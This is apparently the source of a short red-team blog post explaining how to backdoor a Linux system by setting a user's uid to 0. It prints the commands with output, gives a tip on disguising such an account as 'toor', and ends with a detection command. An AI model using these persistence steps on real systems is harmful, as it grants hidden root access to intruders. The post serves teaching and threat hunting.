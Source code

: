 ```yaml
---
title: "Backdoor users on Linux with uid=0"
date: 2021-08-30T09:22:40-07:00
draft: true
tags: [ 
    "red", "ttp"
    ]
---
```


On Unix/Linux users with a `uid=0` are root. This means any security checks are bypassed for them.

An adversary might go ahead and create a new account, or set an existing account's user identifier (`uid`) or group identifier to zero. 



A simple way to do this is to update `/etc/passwd` of an account, or use `usermod -u 0 -o mallory`.

Let's create a new user named `mallory`:

```
wuzzi@saturn:/$ sudo adduser mallory   
[...]
wuzzi@saturn:/$ cat /etc/passwd | grep mallory
mallory:x:1001:1001::/home/mallory:/bin/sh
```

Observe that the user has the uid `1001`.

Next, set the uid to 0 using `usermod`:

```
wuzzi@saturn:/$ sudo usermod -u 0 -o mallory
wuzzi@saturn:/$ cat /etc/passwd | grep mallory
mallory:x:0:1001::/home/mallory:/bin/sh
```

Finally, use the account and observe what happens:

```
wuzzi@saturn:/$ su mallory 
Password: [....]
root@saturn:/# whoami
root
root@saturn:/# 

:)
```

## Detection and Threat Hunting

Depending on your central log collection tools, all you need to do is look for `:0:` in the `/etc/passwd` file for either user or group ids. On the command line on a host this can be done with something like:

```
$ cat /etc/passwd | grep ":0:"
```

The result of this command will look similar to:

![uid 0 backdoor](/blog/images/2021/user-uid0.png)

Neat.

Its unlikely, but if you encounter a BSD system you might actually see two user's with uid 0. One is name `root` and the other one `toor`. So on non-BSD systems a nifty attacker might attempt to trick Unix administrators and hide an additional backdoor user with the name `toor`.

In case you find backdoor users in your environment - I'd be curious to know. It seeems that MITRE ATT&CK framework does not yet contain this specific tactic. 

## Conclusion

Be aware that `uid=0` are root users. It's hardcoded.

One would expect the system to break, but things *seem* to continue working fine. I always assumed that the configuration is not really supported, but malware and malicious users rarely care about supported configurations.
